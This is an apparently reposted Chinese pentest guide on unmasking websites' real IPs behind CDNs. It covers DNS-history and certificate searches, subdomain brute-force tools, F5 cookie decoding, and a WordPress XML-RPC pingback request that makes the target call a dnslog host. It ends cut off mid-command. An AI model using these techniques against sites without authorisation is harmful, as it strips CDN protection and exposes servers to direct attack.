




文章转载安全客，源地址：https://www.anquanke.com/post/id/227818
这是一篇全网（无论国内还是国外）最全、最详细、最新、最实用的关于 CDN 网络对抗攻击的文章，渗透测试中若碰到 CDN 类的问题，只需要看这一篇指南即可。我也会在 Github 长期保持此文的更新，更新与修正新的对抗技术、工具和网站。
Content Delivery Network，中文全称为内容分发网络，简称为 CDN 。
使用 CDN 技术可以有效的提高网站的访问速度和安全性，因此目前互联网上，超过 50％ 的 Alexa 前 1000 网站和超过 35％ 的 Alexa 前 10000 的网站都部署在 CDN 网络后面，所有请求网站内容的用户都将从最近的 CDN 代理服务器获取其缓存版本，因此内容加载速度更快，网站的性能得到改善。
具体 CDN 的相关原理网上都有阐述，有兴趣的读者可以去自行了解，本篇指南旨在攻击，追求简洁、高效、实用，就不再多赘述一些概念性相关的东西了。

0x01 常见 CDN 服务商
一、国内 CDN 服务商
- 阿里云 CDN
- 百度云 CDN
- 七牛云 CDN
- 又拍云 CDN
- 腾讯云 CDN
- Ucloud
- 360 CDN
- 网宿科技
- ChinaCache
- 帝联科技
二、国外 CDN 服务商
- CloudFlare
- StackPath
- Fastly
- Akamai
- CloudFront
- Edgecast
- CDNetworks
- Google Cloud CDN
- CacheFly
- Keycdn
- Udomain
- CDN77
0x02 判断网站是否使用了CDN
- 反查域名 IP，看结果是否有大量不相关的域名存在
- 观察请求响应的返回数据的头部，是否有 CDN 服务商标识
- 使用超级 ping，通过不同定位地点的 ping 测试，看返回的 IP 是否不同
- 判断 IP 是否在常见 CDN 服务商的服务器 IP 段上
- 若 asp 或者 asp.net 网站返回头的 server 不是 IIS、而是 Nginx，则多半使用了nginx反向代理到 CDN
- 利用 Nslookup 查询域名，看是否返回多个应答 IP
0x03 如何绕过 CDN 朔源网站真实 IP
一、通过查询 DNS 记录 / IP 历史记录 / 子域名 等数据记录
- 很多网站只给关键的域名或者主域名做了 CDN，其下很多子域名没有使用 CDN 服务，所以我们可以通过查询目标网站的根域名、二级域名、三级域名甚至多级子域名来获得真实IP。不过有时候查出来的并不是真实 IP，可能仅仅做了 A 记录 ，这种情况下可以继续扫描同 C 段的 IP 和端口，然后逐个探测是否为目标网站。
- 在网站使用 CDN 服务之前，解析的是真实IP，所以可以查询 DNS 历史记录，看是否能探测到使用 CDN 之前的 IP 。
- DNS 解析记录中重点关注 TXT 记录和 SPF 记录，是否有泄露真实IP。
1、在线查询平台
1.SecurityTrails （https://securitytrails.com/）
SecurityTrails（前身为 DNS Trails）拥有大约3.5万亿DNS记录，3亿whois记录，8亿SSL证书记录以及超过4.5亿子域的记录数据。自2008年以来，网站每天都收集和更新海量数据。
SecurityTrails 是我最常用的平台之一，免费、精准，数据量极其庞大，足够支撑日常。
DNS 记录：
IP历史：
子域名：
2.Complete DNS（https://completedns.com/）
Complete DNS 拥有超过 22 亿个DNS变更记录，提供API，支持同时进行多域名/IP查询。
3.WhoISrequest （https://whoisrequest.com/）
WhoISrequest 这个网站自2002年以来一直在跟踪和记录DNS历史变更，数据底蕴很足。
这种时间线设计的UI风格很不戳，点赞。
4.Whoxy（https://www.whoxy.com/）
Whoxy 拥有爬取超过 3.65亿个子域数据，该网站 API 调用非常方便，以 XML 和 JSON 格式返回数据。
5.微步Threatbook（https://x.threatbook.cn/）
Threatbook 微步在线针对 IP、域名 进行综合查询威胁情报、历史记录、子域名解析、DNS解析等等信息，支持 API 查询，非常方便。
- Netcraft（https://netcraft.com/）
Netcraft 不用多说了吧，很多人都知道，不过仁者见仁智者见智吧，经过时代的变迁，Netcraft 也不是曾经的那个少年了，这里只是提一下，仅供参考。

- Viewdns（https://viewdns.info/）
Viewdns 可以说是非常的简洁直观了，就算你不懂任何英文，我相信你也看的懂，至少你知道在哪里输入对吧。响应速度也是非常快了，首页一目了然，集成了超多的查询功能。
找你需要的功能查询就好，用网站提供的 API 也可以
8.Whoisxmlapi（https://reverse-ip.whoisxmlapi.com/）
Whoisxmlapi 数据库包含了超过1.4亿多个域名生态数据，用来反查 IP 和 DNS 数据，在绕过 CDN 时候做反向对比非常有用。网站和 whoxy 一样，也是以 XML 和 JSON 格式返回数据，支持自定义。
- Dnsdb（https://dnsdb.io/）
Dnsdb 功能非常强大，老平台了，也是我常用平台之一。
搜索前可以先简单学习一下搜索语法：
觉得难？不想学？那也没关系，站长已经考虑到你这种懒人情况了，首页就有给懒人准备的搜索构造器，十分友好：


10.SubDomainTools（https://ruo.me/sub）
在线子域名查询，支持实时模式和后台模式，不阻塞前端线程，不占CPU，小测试的时候非常方便。

2、IOT 物联网络空间测绘搜索引擎
1.Censys（https://censys.io/）
Censys 可帮助安全从业人员发现可从Internet访问的设备，包括 IP 地址、开放端口、物理定位、域名信息、托管服务商、SSL 证书 等等数据，从中发现需要的信息追踪到网站真实的 IP 地址。
2.FOFA（https://fofa.so/）
FOFA 可以迅速进行网站资产匹配，加快后续工作进程，如漏洞影响范围分析，应用分布统计，应用流行度排名统计等。FOFA 非常友好，即使免费，也可以查询足够多的数据量，只要你不是商用或者大需求用户，是不需要开会员的。
3.Shodan（https://www.shodan.io/）
Shodan 被称为互联网上最强大的搜索引擎，主要是用来搜索网络空间中在线设备的，可以通过 Shodan 搜索指定的设备，或者搜索特定类型的设备，它可以帮助安全研究人员找到有关他们所研究目标的有用信息。
语法特别强大，建议搜索前好好浏览一下筛选器文档，可以达到事半功倍的效果。
4.Zoomeye
Zoomeye，钟馗之眼，知道创宇打造的宇宙级网络空间搜索引擎，Shodan 侧重于主机设备，Zoomeye 则偏向于 Web 发现。
3、工具和脚本
1.SubDomainsBrute
项目地址：https://github.com/lijiejie/subDomainsBrute
SubDomainsBrute 是通过纯 DNS 爆破来寻找子域名，为了最大提升脚本效率，采用协程+多进程的方式进行爆破。Python 3.5 以上需要安装 aiodns 库进行异步查询，python 2 需要安装 dnspython 库和 gevent 协程库。
之前是不支持扫描泛解析域名的，10月份作者更新已经支持泛解析，使用 -w 参数。
如图，我们针对一个泛解析的域名进行爆破，subDomainsBrute 会提示 any-sub 错误，之后使用 -w 参数开启泛解析强制爆破：
2.ESD
项目地址：https://github.com/FeeiCN/ESD
相比于的暴力收集手段，ESD 在很多方面有独特的想法。
- 基于RSC（响应相似度对比）技术对泛解析域名进行枚举。
- 基于aioHTTP获取一个不存在子域名的响应内容，并将其和字典子域名响应进行相似度比对，超过阈值则说明是同个页面，否则为可用子域名，并对最终子域名再次进行响应相似度对比。
- 基于AsyncIO异步协程技术对域名进行枚举。
- 基于AsyncIO+aioDNS将比传统多进程/多线程/gevent模式快50%以上。
- 解决各家DNS服务商对于网络线路出口判定不一致问题。
- 解决各家DNS服务商缓存时间不一致问题。
- 解决随机DNS问题。
- 根据网络情况自动剔除无效DNS，提高枚举成功率。
ESD 通过使用文本相似度，判断阈值的方法来过滤泛解析，这种方法现在看来很笨重，我们可以自己修改脚本，否则因此会导致机器的内存、CPU都负荷，对机器性能要求比较高，且不支持 python2。
python3 环境下通过 pip 直接安装：
$ pip install esd
基本用法（项目官方给出）:
# 扫描单个域名
esd -d qq.com
# debug模式扫描单个域名
esd=debug esd -d qq.com
# 扫描多个域名（英文逗号分隔）
esd --domain qq.com,tencent.com
# 扫描单个域名且过滤子域名中单个特定响应内容
esd --domain mogujie.com --filter 搜本店
# 扫描单个域名且过滤子域名中多个特定响应内容
esd --domain mogujie.com --filter 搜本店,收藏店铺
# 扫描文件（文件中每行一个域名）
esd --file targets.txt
# 跳过相似度对比（开启这个选项会把所有泛解析的域名都过滤掉）
esd --domain qq.com --skip-rsc
# 使用搜索引擎进行子域名搜索（支持baidu、google、bing、yahoo，使用英文逗号分隔）
esd --domain qq.com --engines baidu,google,bing,yahoo
# 平均分割字典，加快爆破
esd --domain qq.com --split 1/4
# 使用DNS域传送漏洞获取子域名
esd --domain qq.com --dns-transfer
# 使用HTTPS证书透明度获取子域名
esd --domain qq.com --ca-info
但是实际上我们从源码出发，发现很多功能作者目前并未实现：
parser = OptionParser('Usage: python ESD.py -d feei.cn -F response_filter -e baidu,google,bing,yahoo -p user:pass@host:port')
parser.add_option('-d', '--domain', dest='domains', help='The domains that you want to enumerate')
parser.add_option('-f', '--file', dest='input', help='Import domains from this file')
parser.add_option('-F', '--filter', dest='filter', help='Response filter')
parser.add_option('-s', '--skip-rsc', dest='skiprsc', help='Skip response similary compare', action='store_true', default=False)
parser.add_option('-S', '--split', dest='split', help='Split the dict into several parts', default='1/1')
parser.add_option('-p', '--proxy', dest='proxy', help='Use socks5 proxy to access Google and Yahoo')
parser.add_option('-m', '--multi-resolve', dest='multiresolve', help='Use TXT, AAAA, MX, SOA record to find subdomains', action='store_true', default=False)
parser.add_option('--skey', '--shodan-key', dest='shodankey', help='Define the api of shodan')
parser.add_option('--fkey', '--fofa-key', dest='fofakey', help='Define the key of fofa')
parser.add_option('--femail', '--fofa-email', dest='fofaemail', help='The email of your fofa account')
parser.add_option('--zusername', '--zoomeye-username', dest='zoomeyeusername', help='The username of your zoomeye account')
parser.add_option('--zpassword', '--zoomeye-password', dest='zoomeyepassword', help='The password of your zoomeye account')
parser.add_option('--cuid', '--censys-uid', dest='censysuid', help="The uid of your censys account")
parser.add_option('--csecret', '--censys-secret', dest='censyssecret', help='The secret of your censys account')
(options, args) = parser.parse_args()
不难发现 通过 HTTPS 证书透明度、域传送漏洞 等功能均未实现。
ESD 目前仅支持 Linux 系统，这是其源码决定的，不过我们可以 DIY 让它支持 windows
可以看到，engine.py 引擎脚本中，写死了目录是 /tmp/esd ，如果要在 windows 上使用，我们只需要替换这里为 windows 的输出目录即可。
# write output
tmp_dir = 'C:\\temp\\'
if not os.path.isdir(tmp_dir):
os.mkdir(tmp_dir, 0o777)
output_path_with_time = '{td}/.{domain}_{time}.esd'.format(td=tmp_dir, domain=self.domain, time=datetime.datetime.now().strftime("%Y-%m_%d_%H-%M"))
output_path = '{td}/.{domain}.esd'.format(td=tmp_dir, domain=self.domain)
if len(self.data):
max_domain_len = max(map(len, self.data)) + 2
else:
max_domain_len = 2
output_format = '%-{0}s%-s\n'.format(max_domain_len)
with open(output_path_with_time, 'w') as opt, open(output_path, 'w') as op:
for domain, ips in self.data.items():
# The format is consistent with other scanners to ensure that they are
# invoked at the same time without increasing the cost of
# resolution
if ips is None or len(ips) == 0:
ips_split = ''
else:
ips_split = ','.join(ips)
con = output_format % (domain, ips_split)
op.write(con)
opt.write(con)
3.Layer 子域名挖掘机
项目地址：https://hub.fastgit.org/euphrat1ca/LayerDomainFinder/releases/tag/3
Seay 法师的作品，很早就有了，非常强大的一款 windows 上的 GUI 图形化工具，经历了数个版本的迭代，官方最新版是5.0，当然还有不计其数的网友自定义修改版本在野流传。
4.Xray
项目地址：https://github.com/chaitin/xray
xray 是一款强大的安全评估工具，一款自动化扫描器，我们可以用其自带的 subdomain 子域名发掘功能来针对性探测：

subdomain 功能支持暴力破解模式和非暴力模式，可以只探测 web 服务或者只探测 ip 可解析的子域，另外支持 webhook 数据传递，作为插件端或者分发消息的接收端来使用都非常方便快捷。
5.Bypass-firewalls-by-DNS-history
项目地址：https://github.com/vincentcox/bypass-firewalls-by-DNS-history
Bypass-firewalls-by-DNS-history 是一款集成全自动化的探测工具，通过探测 DNS 历史记录，搜索旧的 DNS A Record，收集子域，并检查服务器是否对该域名进行答复。 另外它还基于源服务器和防火墙在HTML响应中的相似性阈值来判断。
用法：
bash bypass-firewalls-by-DNS-history.sh -d example.com
-d --domain: domain to bypass
-o --outputfile: output file with IP's
-l --listsubdomains: list with subdomains for extra coverage
-a --checkall: Check all subdomains for a WAF bypass
此外，类似的还有 subfinder 、dnsprobe 等等工具，有兴趣的读者可以自行去研究了解其工作原理和机制。
二、通过 Email 邮局
一般大型网站自己部署架设的邮件服务器如果向外部用户发送邮件的话，如果中间未经任何数据处理和防护措施，那么邮件头部的源码中会包含此邮件服务器的真实 IP 地址。常见的邮件触发点有：
- RSS 订阅
- 邮箱注册、激活处
- 邮箱找回密码处
- 产品更新的邮件推送
- 某业务执行后发送的邮件通知
- 员工邮箱、邮件管理平台等入口处的忘记密码
另外这里还有一个奇淫技巧，通过发送邮件给一个不存在的邮箱地址，比如 000xxx@domain.com ，因为该用户不存在，所以发送将失败，并且还会收到一个包含发送该电子邮件给你的服务器的真实 IP 通知。
生产上多关注这些点，一个不成功继续测试下一个邮件触发点，很多大型网站的邮件服务器不止一台，并不是所有都做了防护处理，细节决定成败。
三、通过 SSL 证书
- 证书颁发机构 (CA) 必须将他们发布的每个 SSL/TLS 证书发布到公共日志中，SSL/TLS 证书通常包含域名、子域名和电子邮件地址。因此可以利用 SSL/TLS 证书来发现目标站点的真实 IP 地址。
- CDN 运营商在给服务器提供保护的同时，也会与其服务器进行加密通信（ssl），这时当服务器的 443 端口接入域名时也会在 443 端口暴露其证书，我们通过证书比对便可发现网站的真实 IP 地址。
1.利用 Censys 引擎（https://censys.io/）
- Censys 搜索引擎能够扫描整个互联网，每天都会扫描 IPv4 地址空间，以搜索所有联网设备并收集相关的信息，可以利用 Censys 进行全网方面的 SSL 证书搜索，找到匹配的真实 IP 。
可以看到，当我们针对一个互联网 IP 地址进行搜索时，是有匹配到证书 sha1 签名的
同理，我们根据域名指纹搜索 SSL 证书指纹，然后再反查 IP 就可以了。
首先针对目标域名，选择 Certificates 证书搜索，结果出来一堆 有效 的证书和 无效 的证书：
测试过程中，很容易陷入思维误区，认为 有效 的证书才是我们需要的，但其实并不一定，很多服务器配置错误依然保留的是 无效 的证书，就比如例子中，在结果特别多的情况下，我又使用 Censys 的语法搜索，来精准定位 有效 SSL 证书，减少结果：
parsed.names: xxx.com and tags.raw: trusted
瞬间减少到了 2 个结果，我们逐个点开，然后 sha1 签名反查 IPV4 主机：
不过很遗憾，两条记录全都没查到：
这也从侧面说明了，不是所有的网站只有其 有效 证书会匹配其 IP 服务器。
于是只能回到最开始，从所有的结果里面依次打开往下反查指纹，最终定位到了真实 IP ：
安全不仅是个技术活，也是个细心活。
2.使用命令行
- 通过
openssl和curl等常见的基础命令，也同样可以达到反查 SSL 证书的效果。
openssl：
openssl s_client -connect 123.123.123.123:443 | grep subject
curl：
curl -v https://123.123.123.123 | grep 'subject'
3.使用工具和脚本
- 通过自己写工具脚本，集成前面的1、2两点，完全可以做到一个简易版的 SSL 全网证书爬取，也可以利用现有的一些脚本工具和网站，省的我们自己费力了。
例如 CloudFlair ，项目地址：https://github.com/christophetd/CloudFlair
脚本兼容 python2.7 和 3.5，需要配置 Censys API，不过只针对目标网站是否使用 CloudFlare 服务进行探测。
在 Censys 注册一个账号并进入 https://censys.io/account/api 获取 API ID 和 Secret：
将 CloudFlair 克隆到本地并把 API ID 和 Secret 导入环境变量：
$ git clone https://github.com/christophetd/CloudFlair
$ export CENSYS_API_ID="xxx"
$ export CENSYS_API_SECRET="xxx"
通过 requirements.txt 安装依赖：
$ pip install -r requirements.txt
运行 cloudflair.py ：
$ python cloudflair.py --censys-api-id xxx --censys-api-secret xxx baidu.com
[*] The target appears to be behind CloudFlare.
[*] Looking for certificates matching "myvulnerable.site" using Censys
[*] 75 certificates matching "myvulnerable.site" found.
[*] Looking for IPv4 hosts presenting these certificates...
[*] 10 IPv4 hosts presenting a certificate issued to "myvulnerable.site" were found.
- 51.194.77.1
- 223.172.21.75
- 18.136.111.24
- 127.200.220.231
- 177.67.208.72
- 137.67.239.174
- 182.102.141.194
- 8.154.231.164
- 37.184.84.44
- 78.25.205.83
[*] Retrieving target homepage at https://myvulnerable.site
[*] Testing candidate origin servers
- 51.194.77.1
- 223.172.21.75
- 18.136.111.24
responded with an unexpected HTTP status code 404
- 127.200.220.231
timed out after 3 seconds
- 177.67.208.72
- 137.67.239.174
- 182.102.141.194
- 8.154.231.164
- 37.184.84.44
- 78.25.205.83
[*] Found 2 likely origin servers of myvulnerable.site!
- 177.67.208.72 (HTML content identical to myvulnerable.site)
- 182.102.141.194 (HTML content identical to myvulnerable.site)
其实完全可以通过 Censys 提供的 API 自己集成一款简洁实用的全自动化探测脚本，如果后面我有时间写好了，会同步更新到这里的。
######4.证书收集
可以通过 https://crt.sh 进行快速证书查询收集
附上查询的 python 小脚本：
import requests
import re
TIME_OUT = 60
def get_SSL(domain):
domains = []
url = 'https://crt.sh/?q=%25.{}'.format(domain)
response = requests.get(url,timeout=TIME_OUT)
ssl = re.findall("<TD>(.*?).{}</TD>".format(domain),response.text)
for i in ssl:
i += '.' + domain
domains.append(i)
print(domains)
if __name__ == '__main__':
get_SSL("baidu.com")
获得所有包含证书的子域：
四、通过海外 DNS 查询
- 针对国内市场用户，大部分的 CDN 服务商并没有做海外市场的 CDN ，所以可以通过寻找小众、冷门的海外 DNS 查询，看是否能获得真实 IP 。
$ nslookup target.com <海外 DNS 地址>
也可以使用海外的超级ping类的平台在线多国家多地区测试，推荐 https://www.host-tracker.com/v3/check/ ，支持 140 多个地区的 ping 测试，另外支持针对某子域超长期的监控，通过邮件通知，简直太强大了。
五、通过敏感文件泄露
包括但不限于：
- 服务器日志文件
- 探针文件，例如 phpinfo
- 网站备份压缩文件
- .DS_Store
- .hg
- .git
- SVN
- Web.xml
字典非常重要，往往疏忽的点就在一台边缘服务器。
六、通过变更的域名
- 很多网站在发展的过程中，会更换域名，比如京东以前的域名是 360buy.com ，后来斥巨资购买了 jd.com 。
- 网站在更换新域名时，如果将 CDN 部署到新的域名上，而之前的域名由于没过期，可能未使用 CDN，因此可以直接获得服务器 IP，所以，历史域名也是一个很重要的点。
七、 通过 APP 移动端应用
- 如果网站存在 APP ，可以通过抓包分析其 APP 的数据流量，看是否能找到网站真实 IP 地址，记得关注 APP 的历史版本，里面会有很多 surprise 。
八、通过 F5 LTM 解码
- LTM 是将所有的应用请求分配到多个节点服务器上。提高业务的处理能力，也就是负载均衡。
- 当服务器使用 F5 LTM 做负载均衡时，通过对
set-cookie关键字的解码，可以获取服务器真实 ip 地址。
例如：
Set-Cookie: BIGipServerpool_9.29_5229=605532106.22012.0000
- 先把第一小节的十进制数，即 605532106 取出来
- 将其转为十六进制数 2417afca
- 接着从后至前，取四个字节出来： CA AF 17 24
- 最后依次转为十进制数 202.175.23.36，即是服务器的真实 ip 地址。
九、通过 CDN 标头特征值
很多网站启用 CDN 后，配置了拒绝直接访问真实 IP ，比如 CloudFlare 的提示：
因此可以通过匹配特征标头的方法，去缩小范围，这里还是使用 Censys 查询：
语法: <port>http.get.headers.server:<CDN特征>
eg: 80.http.get.headers.server:cloudflare

针对整个互联网的搜索 IP 结果进一步匹配，比如通过 端口、地理位置、banner 特征、反查邮箱、联系方式等等信息，继续精确结果：
十、通过 XML-RPC PINGBACK 通信
- XML-RPC 是支持 WordPress 与其他系统之间通信的规范，它通过使用 HTTP 作为传输机制和 XML 作为编码机制来标准化这些通信过程。
- 在 WordPress 的早期版本中，默认情况下已关闭 XML-RPC，但是从3.5版本开始，默认情况下开启。
- XML-RPC 支持 trackback 和 pingback。
- 虽然 WordPress 启用了 REST API 来代替 XML-RPC ，不过 XML-RPX 不会过时的，放心大胆的使用就好，虽然 XML-RPC 这个技术很老了，但依然可以通杀很多网站。
配置好 dnslog，POST 请求 XML-RPC：
POST /xmlrpc.php HTTP/1.1
Host: domain.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 323
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://2vbis4.dnslog.cn</string></value>
</param>
<param>
<value><string>https://domain.com/</string></value>
</param>
</params>
</methodCall>
响应：
刷新一下 dnslog ，获得了真实服务器 IP：
十一、通过 FTP/SCP 协议
- 在很多情况下，网站需要将数据流从外部传输到内部服务器上，最安全的做法肯定是在用户和服务器之间建立虚拟专用网络（V*P+N 防和谐）。
- 但实际上，仍然有大量可从外部访问的 FTP / SCP 服务，从而容易被抓住机会找到源 IP 地址。
十二、利用 Websocket 协议
- CloudFlare 等 CDN 服务商其实早就支持对 Websocket 的保护了，但太多的站长，不管大站小站，他们很多人都不知道，或者没有针对 Websocket 进行部署。
- 另一种原因是因为业务上的需求，毕竟 Websocket 要求客户端和服务器之间保持长久的连接，所以很有可能没有进行 CDN 部署。
十三、通过社会工程学
- 凯伦·王，21世纪初杰出初思想家、哲学家、社会学家、经济学家，社会工程学的鼻祖，括弧，自称的。
- http://www.333ttt.com/up/up2103510950.html，熟悉的 BGM 响起来，好似又回到了辣一段青葱岁月。
- 估计有人笑了，不过啊，可真别小看社工的威力，有多少大厂、运营商是倒在了社会工程学脚下的，邮件钓鱼、水坑攻击、物理社工、身份伪装、客服欺骗、商务咨询 等等，案例数不胜数，不胜枚举。
- 因为人不是机器，只要是人，那就一定存在漏洞。
- 哦对，顺带推荐部电影，小李子的《猫鼠游戏》。
十四、通过网站漏洞
- 如果目标网站本身存在漏洞的话，比如 SSRF、XXE、XSS、文件上传、命令执行等漏洞，或者我们找到的其他突破口，注入我们自己的带外服务器地址，然后在服务器上检查 HTTP 日志记录。
- 应用本身的错误会造成当传递一些错误的参数值或者错误的地址时，内部会抛出异常，也就是日常所说的报错，关注报错点，经常会泄露一些真实的 IP 地址或者内网 IP 段。
十五、通过全网扫描
- 什么年代了啊，怎么还在说全网扫描。为了写全方法，这里还是提一下。
- 首先从 apnic 网络信息中心 或 IPdeny 获取目标地区 ip 段。
- 接着使用 Zmap、masscan 等工具对扫描出来端口开放的主机进行 banner 爬取。
- 然后在 http-req 的 Host 字段，写入我们需要寻找的子域。
- 最后过滤特征，确认是否有对应的服务器响应。
- 哦对了，如果端口不是常见或者固定，当场退役。
- 实际上，全网扫描的方法十分笨重，不推荐。因为已经有很多的网站给我们提供了全网爬取服务，之前的方法里都有介绍到，何必自己全网扫描呢，受限于网络、受限于设备，你个人爬的数据能有人家商业爬的全吗？
十六、通过 virtual-host 碰撞
- 当我们收集了目标足够多的可能的真实 IP 时，可以通过 IP 和子域的碰撞，来批量获得命中目标以及目标哪些的子域。
IP 正确，子域错误：
IP 正确，子域正确：
IP 错误，子域正确：

自动化的过程可以使用 virtual-host-discovery 工具，项目地址：https://github.com/jobertabma/virtual-host-discovery
克隆到本地
$ git clone https://github.com/jobertabma/virtual-host-discovery
使用方法：
$ ruby scan.rb --ip=x.x.x.x --host=domain --wordlist=<dict file>
其中wordlsit 参数可以省略，默认有一个字典加载，使用该参数则是指定我们自己想要跑的子域列表。
执行后，即可快速找出命中 IP 的子域
另外可以通过 find-virtual-hosts （https://pentest-tools.com/information-gathering/find-virtual-hosts#）工具来在线快速针对全网数据扫描比对得出结果：
十七、通过 favicon.ico 哈希特征
- favicon.ico 是现代浏览器在网页标题的左侧显示的一个小图标。
- 该图标数据通常是从 https://anywebsite/favicon.ico 处获取的，浏览器会在浏览任何网站时自动请求它。
- 因为可以通过计算 favicon.ico 的指纹哈希，然后去 shodan 等搜索引擎搜索与之相同的主机结果，从而进一步探测是否能挖掘出目标网站的真实 IP 地址。
计算 favicon.ico 哈希的小脚本：
python 2
import mmh3
import requests
response = requests.get('https://domain.com/favicon.ico')
favicon = response.content.encode('base64')
hash = mmh3.hash(favicon)
print hash
python 3
import mmh3
import requests
import codecs
response = requests.get('https://domain.com/favicon.ico')
favicon = codecs.encode(response.content,"base64")
hash = mmh3.hash(favicon)
print(hash)
安装好环境依赖后执行脚本，计算得到目标网站的 favicon.ico 哈希值：
$ apt-get install build-essential
$ apt-get install gcc
$ apt-get install g++
$ python 3.py
然后用 shodan 搜索引擎搜索哈希，去命中 IP：
$ proxychains shodan search http.favicon.hash:1730752770 --fields ip_str,port --separator " " | awk '{print $1":
